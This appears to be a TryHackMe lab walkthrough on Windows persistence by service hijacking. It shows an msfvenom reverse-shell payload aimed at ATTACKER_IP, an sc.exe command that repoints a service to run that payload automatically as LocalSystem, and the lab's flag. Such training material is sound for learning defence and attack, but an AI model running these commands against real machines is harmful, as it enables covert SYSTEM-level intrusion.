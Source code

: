 There are three things we care about when using a service for persistence:

- The executable (**BINARY_PATH_NAME**) should point to our payload.
- The service **START_TYPE** should be automatic so that the payload runs without user interaction.
- The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

To reconfigure "THMservice3" parameters, we can use the following command:

```shell-session
C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

You can then query the service's configuration again to check if all went as expected:

```shell-session
C:\> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
 TYPE : 10 WIN32_OWN_PROCESS
 START_TYPE : 2 AUTO_START
 ERROR_CONTROL : 1 NORMAL
 BINARY_PATH_NAME : C:\Windows\rev-svc2.exe
 LOAD_ORDER_GROUP :
 TAG : 0
 DISPLAY_NAME : THMservice3
 DEPENDENCIES :
 SERVICE_START_NAME : LocalSystem
```

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Start a Metasploit listener on your attacker's machine and manually start the service to receive a reverse shell. From there, run`C:\flags\flag8.exe` to get a flag!


Once we did all that, we will receive a shell:

![Pasted image 20250515164758.png](../../../IMAGES/Pasted%20image%2020250515164758.png)

```
C:\flags>.\flag8.exe
THM{IN_PLAIN_SIGHT}
```
